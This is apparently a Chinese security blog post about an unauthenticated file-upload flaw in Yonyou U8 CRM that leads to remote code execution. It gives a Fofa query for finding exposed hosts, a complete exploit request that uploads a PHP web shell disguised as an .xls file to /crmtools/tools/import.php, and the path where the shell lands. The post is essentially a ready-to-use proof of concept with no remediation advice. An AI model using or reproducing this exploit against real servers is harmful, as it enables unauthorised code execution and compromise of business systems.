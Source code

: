 #  用友U8 CRM 文件上传致RCE漏洞   
合规渗透  合规渗透   2024-07-21 15:34  
  
## Fofa语法  
  
title="  
用友  
U8CRM"  
  
## 漏洞POC  
```
POST /crmtools/tools/import.php?DontCheckLogin=1&issubmit=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye0z8QbHs79gL8vW5
 
------WebKitFormBoundarye0z8QbHs79gL8vW5
Content-Disposition: form-data; name="xfile"; filename="1.xls"
 
<?php system("whoami");unlink(__FILE__);?>
------WebKitFormBoundarye0z8QbHs79gL8vW5
Content-Disposition: form-data; name="combo"
 
rce.php
------WebKitFormBoundarye0z8QbHs79gL8vW5--

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj5bcK0Gmjae40EDYEbypQn3OIeGOGqL5URuV1ttfWgf88jpeibXr6ibH9Cv5fhQaBzqIE2xNPDcey5w/640?wx_fmt=png&from=appmsg "")  
  
上传定位  
/tmpfile/rce.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj5bcK0Gmjae40EDYEbypQn3BguRArYDKHHJOGL9tpmAWtxPReXjiceibvla2TW9cNw54XRiaQH8pW5Nw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
